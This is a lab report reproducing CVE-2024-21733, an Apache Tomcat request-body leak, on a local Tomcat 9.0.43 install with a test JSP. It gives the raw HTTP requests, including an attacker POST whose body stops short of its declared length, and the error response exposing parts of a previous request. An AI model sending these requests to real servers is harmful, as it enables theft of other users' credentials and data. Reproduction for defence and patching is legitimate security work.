

# 📝 Report: Reproducing CVE‑2024‑21733 (Apache Tomcat Request Smuggling / Information Disclosure)

## 1. Introduction
- **CVE ID:** CVE‑2024‑21733  
- **Affected Software:** Apache Tomcat versions 8.5.7–8.5.63 and 9.0.0–9.0.43  
- **Impact:** Improper handling of incomplete HTTP request bodies can cause Tomcat to leak the body of a previous request in error responses.  
- **Goal of Report:** Document the reproduction steps, environment setup, observed behavior, and mitigation recommendations.

---

## 2. Environment Setup
- **Operating System:** Kali Linux (Debian-based)  
- **Apache Tomcat Version:** 9.0.43 (vulnerable)  
- **Deployment:** Default installation, running on `localhost:8080`  
- **Test Application:**  
  - `vulnerable.jsp` deployed under `/ROOT`  
  - Code snippet:
    ```jsp
    <% 
        String id = request.getParameter("id");
        if (id != null) {
            out.println("The ID is: " + id);
        } else {
            out.println("No ID parameter provided.");
        }
    %>
    ```

---

## 3. Reproduction Steps
### Step 1: Normal Request (Victim)
Send a valid POST request with sensitive data:
```http
POST /vulnerable.jsp HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 1488
Connection: keep-alive

id=123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789
```
**Observed Response:**
```
HTTP/1.1 200 
Set-Cookie: JSESSIONID=58442DBD1427FB738E887F7CACA53580; Path=/; HttpOnly
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 1498
Date: 16:20:43 GMT
Keep-Alive: timeout=20
Connection: keep-alive

The ID is: 123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789123456789
```

### Step 2: Malicious Request (Attacker)
On the same TCP connection, send a second request with a **mismatched Content-Length**:
```http
POST /vulnerable.jsp HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Connection: keep-alive
```
Stop sending further body data, leaving the request incomplete.

### Step 3: Wait for Timeout
After ~20 seconds (Tomcat’s keep-alive timeout), Tomcat throws a parsing error.

**Observed Response:**
```
HTTP/1.1 400 
Content-Type: text/html;charset=utf-8
Content-Language: en
Transfer-Encoding: chunked
Date: 16:25:48 GMT
Connection: close

2000
<!doctype html><html lang="en"><head><title>HTTP Status 400 – Bad Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 – Bad Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> Invalid character found in method name [891234567891234567891234567891234567891234567891234567891234567891234567891234567...
```

---

## 4. Results
- The **error page contained fragments of the previous request body** (`89123456789...`).  

- This confirms **information disclosure**: sensitive data from one request can leak into another client’s error response.  
- The vulnerability is reproducible in Tomcat 9.0.43 under default configuration.

---

## 5. Security Impact
- **Confidentiality Breach:** Sensitive request data (e.g., authentication tokens, passwords) may be exposed.  
- **Attack Scenario:** An attacker can deliberately send incomplete requests to force Tomcat to leak other users’ request bodies.  
- **Risk Level:** High, especially in multi-user environments or reverse proxy setups.

